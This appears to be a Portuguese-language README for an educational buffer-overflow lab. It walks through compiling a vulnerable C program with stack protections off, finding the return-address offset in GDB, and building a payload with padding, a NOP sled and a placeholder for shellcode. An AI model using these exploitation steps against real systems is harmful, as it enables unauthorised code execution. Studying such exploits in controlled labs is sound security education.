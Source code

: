 # Buffer Overflow - Exploração de Vulnerabilidades

Este repositório contém um estudo prático sobre Buffer Overflow, abordando os conceitos fundamentais e demonstrando a exploração de uma vulnerabilidade de estouro de buffer.

## 🚨 Aviso Importante
Este material é **estritamente educacional** e deve ser utilizado **apenas** em ambientes controlados para fins de aprendizado. Qualquer uso inadequado, fora dos propósitos acadêmicos, pode ser ilegal.

---

## 📌 Introdução
O **Buffer Overflow** ocorre quando um programa escreve dados além dos limites de um buffer, sobrescrevendo áreas adjacentes da memória. Esse comportamento pode ser explorado para modificar o fluxo de execução do programa e, em alguns casos, obter controle total sobre o sistema.

---

## 🛠️ Configuração do Ambiente
Antes de iniciar, certifique-se de estar em um ambiente Linux com as ferramentas necessárias instaladas:

- **GCC** (Compilador de C)
- **GDB** (Depurador GNU)
- **Python** (para geração de payloads)
- **objdump** (para análise de binários)

Caso algum desses pacotes não esteja instalado, use:
```bash
sudo apt update && sudo apt install gcc gdb python3 binutils -y
```

---

## 🔧 Passo a Passo da Exploração

### 1️⃣ Compilação do Programa
Compile o código vulnerável desativando proteções de pilha para facilitar a exploração:
```bash
gcc -fno-stack-protector -z execstack -o vulneravel vulneravel.c
```
- `-fno-stack-protector`: Desativa a proteção de pilha do compilador.
- `-z execstack`: Permite execução de código na pilha.

### 2️⃣ Análise do Programa
Use um depurador para identificar padrões e vulnerabilidades:
```bash
gdb ./vulneravel
```
No GDB, analise a disposição da pilha e descubra o endereço de retorno:
```gdb
run $(python3 -c 'print("A"*200)')
info frame
```
Isso ajudará a determinar quantos bytes são necessários para sobrescrever o endereço de retorno.

### 3️⃣ Criação do Payload
Crie um payload que sobrescreva o endereço de retorno e redirecione a execução para um shellcode. Exemplo em Python:
```python
payload = b"A" * 140  # Preenchimento até o endereço de retorno
payload += b"\x90" * 16  # NOP Sled
payload += b"<shellcode>"  # Código malicioso
```
Substitua `<shellcode>` por um código adequado, como um shell `/bin/sh`.

### 4️⃣ Execução do Ataque
Passe o payload como argumento para explorar a vulnerabilidade:
```bash
./vulneravel $(python3 -c 'print("A"*140 + "\xef\xbe\xad\xde")')
```
Se bem-sucedido, isso pode conceder uma shell interativa ao atacante.

---
